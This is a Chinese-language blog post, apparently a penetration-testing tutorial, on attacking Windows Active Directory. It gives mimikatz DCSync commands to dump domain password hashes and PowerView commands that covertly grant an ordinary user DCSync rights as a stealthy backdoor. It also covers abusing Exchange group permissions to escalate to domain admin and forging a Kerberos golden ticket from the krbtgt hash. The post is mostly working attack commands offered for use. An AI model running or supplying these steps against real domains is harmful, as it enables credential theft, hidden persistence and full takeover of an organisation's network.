 这个东西 可以实现不登录到域控而获取域控上的数据  
获得以下权限就可以使用了

*   Administrators 组内的用户
*   Domain Admins 组内的用户
*   Enterprise Admins 组内的用户
*   域控制器的计算机帐户

然后在 mimikatz 里  
privilege::debug  
lsadump::dcsync /user:xxxx /domain:xxxxx /csv 即可

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133813.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133813.png)

然后我们就可以通过 krbtgt hash 制作黄金票据登录 administrator。  
如果还想隐蔽一点，可以给普通用户添加如下 ACE, 使其获得 dcsync 权限

*   DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
*   DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
*   DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

可以以管理员权限运行 powerview.ps1 完成以上操作

```
#给域用户hack添加以上三条ACE
Add-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose

#给域用户hack删除以上三条ACE
Remove-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose
```

然后普通用户也可以用 mimikatz 调用 dcsync 导出 hash 了

### 配合 EXCHANGE 用户达到域提权目的

前提: 一个 exchange 高权限组的用户控制权，一个机器账户

exchange 安装后会在 AD 上生成两个容器

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141602.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141602.png)

其中 exchange windows permissions 组的用户拥有 writeDACL 权限， Exchange Trusted Subsystem 是 Exchange Windows Permission 的成员，能继承 writedacl 权限，有这个权限后就能使用 dcsync 导出所有用户 hash。  
其中 exchange trusted subsystem 组甚至可能有继承自 administrators 组的权限。

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141614.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141614.png)

假设我们已经拿到了 exchange trusted subsystem 中一个用户的控制权。  
那么就可用 dysync 进行权限维持了

黄金票据生成
------

```
#提权
privilege::debug

#生成黄金票据并导入
kerberos::golden /user:administrator /domain:const.com /sid:当前用户sid去掉最后一个数据 /krbtgt:krbtgt的hash /ptt
```
